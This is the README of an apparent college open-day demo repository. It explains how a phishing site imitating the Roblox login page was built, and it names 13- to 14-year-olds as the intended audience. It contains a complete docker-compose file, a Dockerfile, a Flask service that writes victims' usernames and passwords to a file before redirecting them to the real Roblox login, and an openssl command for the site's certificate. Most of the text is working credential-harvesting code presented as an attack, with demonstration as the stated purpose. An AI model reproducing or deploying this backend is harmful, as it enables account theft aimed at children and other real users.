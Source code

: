 # Hacking_Demos

> [!NOTE]
> This repository contains hacking/exploit examples like phishing to act as showcase for open door day in my college. <br/>

> [!NOTE]
> **Phishing** <br/>
> In the phishing example, I opted to utilize the online gaming platform 'Roblox' due to its popularity among the 13- to 14-year-old age demographic, making it a fitting choice.

## Phishing

To set this all up I created a small containerized application using `docker-compose`. <br/>
```yml
version: '3.9'

services:
  web:
    build: .
    restart: always
    ports:
      - "80:5000"
    volumes:
      - ./output:/output
```

In this `docker-compose.yml` file I mapped the Flask service running on Port `5000` to the exposed Port `80`. <br/>
I added a volume for the purpose of storing credentials during the demonstration, the output directory contains the credentials of victims. <br/>

The Dockerfile sets up the latest python environment and starts the `service.py` script. <br/>
```docker
FROM python:latest

WORKDIR /app

COPY . /app

RUN pip install --no-cache-dir -r requirements.txt

EXPOSE 5000

CMD ["python3", "service.py"]
```

The `service.py` script just launches a normal `Flask` service which provides the landing page and a redirect after successfully obtaining a victims credentials. <br/>
```py
from flask import *
import ssl

app = Flask(__name__)

# API Endpoint for Index-Page
@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('roblox.html')
    if request.method == 'POST':
        return render_template('roblox.html')

# API Endpoint for styling files
@app.route('/roblox_files/<path:filename>')
def serve_roblox_file(filename):
    return send_from_directory('/app/roblox_files/', filename)

# API Endpoint to store creds and redirect user
@app.route('/api/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    with open('/output/output.txt', 'a') as file:
        file.write(f'------------------------------------\n\nUsername: {username}\nPassword: {password}\n\n')

    return redirect('https://www.roblox.com/login')

# Generation of ssl cert
def generate_ssl_context():
    ssl_context = ssl.SSLContext(ssl.PROTOCOL_TLS)
    ssl_context.load_cert_chain(certfile="cert.pem", keyfile="key.pem")
    return ssl_context

if __name__ == '__main__':
    ssl_context = generate_ssl_context()
    app.run(host="0.0.0.0", port=443, ssl_context=ssl_context)
```

I will not comment on the `html` and `css` files from roblox as they are just a simple replica of `roblox.com` and I have no rights whatsoever to reuse the actual source. (Please don't sue me.)

At last I generated a `self-signed` SSL certificate using openssl which is than being used by `service.py`. <br/>
```
openssl req -x509 -nodes -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -subj "/CN=localhost"
```